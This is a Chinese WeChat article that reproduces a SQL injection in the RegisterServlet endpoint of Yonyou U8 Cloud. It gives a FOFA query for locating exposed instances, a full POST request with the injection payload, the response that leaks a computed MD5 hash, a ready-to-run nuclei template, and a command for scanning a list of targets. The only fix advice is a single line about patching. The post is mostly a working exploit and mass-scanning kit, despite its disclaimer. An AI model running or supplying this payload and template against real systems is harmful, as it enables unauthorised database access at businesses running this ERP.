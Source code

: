 #  用友u8-cloud RegisterServlet SQL注入漏洞复现 nuclei poc

原创 fgz  [ AI与网安 ](javascript:void\(0\);)

**AI与网安** ![]()

微信号 gh_c57275954216

功能介绍 漏洞复现 0day/nday分享 poc/exp分享 渗透工具分享 AI算法在网络安全中的应用

____

___发表于_

收录于合集

  

免责申明： **本
文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**

 **  
**

  

01

—

漏洞名称

  

  

用友u8cloud RegisterServlet SQL注入漏洞

  

02

—  

漏洞影响

  

用友U8 cloud

  

![]()

  

  

03

—  

漏洞描述

  

U8
cloud是用友推出的企业上云数字化平台，主要聚焦成长型、创新型企业，提供企业级云ERP整体解决方案，全面支持多组织业务协同、营销创新、智能财务、人力服务，构建产业链制造平台，融合用友云服务，实现企业互联网资源连接、共享、协同，赋能中国成长型企业高速发展、云化创新。该产品RegisterServlet接口处存在SQL注入漏洞，攻击者可通过该漏洞获取数据库权限。

  

04

—  

FOFA搜索语句  

  * 

    
    
    title="u8c"

![]()

  

05

—  

漏洞复现

  

向靶场发送数据包，计算123456的MD5值

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /servlet/RegisterServlet HTTP/1.1Host: 192.168.86.128:8089User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36Connection: closeContent-Length: 85Accept: */*Accept-Language: enContent-Type: application/x-www-form-urlencodedX-Forwarded-For: 127.0.0.1Accept-Encoding: gzip  
    usercode=1' and substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)>0--

响应数据包如下

  *   *   *   *   *   *   *   * 

    
    
    HTTP/1.1 200 OKConnection: closeContent-Length: 71Date: Mon, 13 Nov 2023 02:25:54 GMTServer: Apache-Coyote/1.1Set-Cookie: JSESSIONID=F66A9268A74114BADA7CB11346378B11.server; Path=/; HttpOnly  
    Error:?? nvarchar ? 'e10adc3949ba59abbe56e057f20f883e' ??????? int ????

![]()

证明存在漏洞

  

06

—  

nuclei poc

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    id: yonyou-u8-cloud-RegisterServlet-sqli  
    info:  name: 用友 u8-cloud RegisterServlet SQL注入漏洞  author: fgz  severity: high  description: 'U8 cloud是用友推出的企业上云数字化平台，主要聚焦成长型、创新型企业，提供企业级云ERP整体解决方案，全面支持多组织业务协同、营销创新、智能财务、人力服务，构建产业链制造平台，融合用友云服务，实现企业互联网资源连接、共享、协同，赋能中国成长型企业高速发展、云化创新。该产品存在SQL注入漏洞，攻击者可通过该漏洞获取数据库权限。'  tags: 2023,u8-cloud,sqli,yonyou  metadata:    max-request: 3    fofa-query: title="u8c"    verified: true  
    http:  - method: POST    path:      - "{{BaseURL}}/servlet/RegisterServlet"    headers:      Content-Type: application/x-www-form-urlencoded      X-Forwarded-For: 127.0.0.1    body: "usercode=1' and substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)>0--"    matchers:      - type: word        words:          - "e10adc3949ba59abbe56e057f20f883e"        condition: and

运行POC  

  * 

    
    
    nuclei.exe -l u8cloud.txt -t yonyou-u8-cloud-RegisterServlet-sqli.yaml

![]()

  

07

—  

修复建议

  

打上官方补丁或者升级到最新版本。

  

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

